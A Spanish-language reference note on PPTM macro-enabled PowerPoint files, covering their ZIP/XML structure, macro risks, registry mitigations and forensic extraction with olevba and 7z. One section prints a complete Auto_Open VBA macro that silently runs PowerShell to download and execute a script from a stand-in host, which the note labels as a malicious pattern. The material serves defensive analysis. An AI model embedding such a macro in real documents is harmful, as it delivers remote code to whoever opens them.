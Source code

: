 #Programación #Software #Windows #LenguajesDeProgramación #Automatización
# Archivos PPTM (PowerPoint Macro-Enabled Presentation)

## 📌 Definición
- **Extensión**: `.pptm` (vs `.pptx` que no soporta macros).
- **Tipo MIME**: `application/vnd.ms-powerpoint.presentation.macroEnabled.12`.
- **Contiene**: Diapositivas + **macros embebidas** (código VBA).

---

## 🔍 Estructura Técnica
1. **Formato subyacente**: 
   - Basado en [[Office Open XML]] (ZIP comprimido con estructura de carpetas).
   - Puede descomprimirse con:
     ```bash
     unzip presentacion.pptm -d carpeta_descomprimida
     ```
2. **Contenido clave**:
   - `ppt/slides/`: Diapositivas individuales (XML).
   - `ppt/vbaProject.bin`: Macros en formato binario ([[VBA]]).
   - `_rels/`: Relaciones entre archivos.

---

## ⚠️ Riesgos de Seguridad
### 🔴 Amenazas comunes
1. **Macros maliciosas**:
   - Ejecutan código al abrir el archivo (ej. descargar [[payload]]).
   - Técnicas como [[DDE Exploits]] o shellcode embebido.
2. **Obfuscación**:
   - Código VBA ofuscado para evadir AV (ej. [[AutoClose]] + `Call` anidados).

### 🛡️ Mitigaciones
- **Políticas de Office**:
  ```registry
  [HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\PowerPoint\Security]
  "VBAWarnings"=dword:00000001
  ```
- **Configuración recomendada**:
  - Deshabilitar macros en el [[Trust Center]].
  - Usar [[AMSI]] (Antimalware Scan Interface) para escaneo en tiempo real.

---

## 🔧 Análisis Forense
### Herramientas clave:
1. **OleVBA** (Python):
   ```bash
   olevba.py presentacion.pptm --decode
   ```
   - Detecta patrones maliciosos (ej. `Shell`, `WScript.Shell`).
2. **Process Monitor**:
   - Monitorea actividad al abrir el PPTM (creación de procesos, acceso a registro).

### Técnicas:
- Extraer VBA con `7z`:
  ```bash
  7z e presentacion.pptm -oextracted vbaProject.bin
  ```
- Inspeccionar con **VBADecompiler** o [[IDA Pro]].

---

## 📊 Comparación PPTX vs PPTM
| Característica       | PPTX          | PPTM               |
|----------------------|---------------|--------------------|
| Macros               | ❌ No         | ✅ Sí              |
| Tamaño               | Menor         | Mayor (por VBA)    |
| Riesgo seguridad     | Bajo          | Alto               |
| Casos de uso         | Presentaciones estáticas | Presentaciones interactivas |

---

## 🛠️ Ejemplo de Macro VBA en PPTM
```vba
Sub Auto_Open()
    Dim cmd As String
    cmd = "powershell -nop -exec bypass -c ""IEX (New-Object Net.WebClient).DownloadString('http://malicio.so/payload.ps1')"""
    Shell cmd, vbHide
End Sub
```
- **Patrón malicioso**: Descarga remota + ejecución oculta (`vbHide`).

---

## 📂 Diagrama de Análisis (Mermaid)
```mermaid
graph LR
  A[PPTM] --> B{Extraer con 7z/OLE}
  B --> C[vbaProject.bin]
  B --> D[Diapositivas XML]
  C --> E[Decompilar VBA]
  E --> F{¿Código sospechoso?}
  F -->|Sí| G[Reportar como malware]
  F -->|No| H[Uso legítimo]
```

---

## 🔗 Conceptos Relacionados
- [[Macros]] | [[VBA Malware]] | [[Forensic]] | [[Phishing]]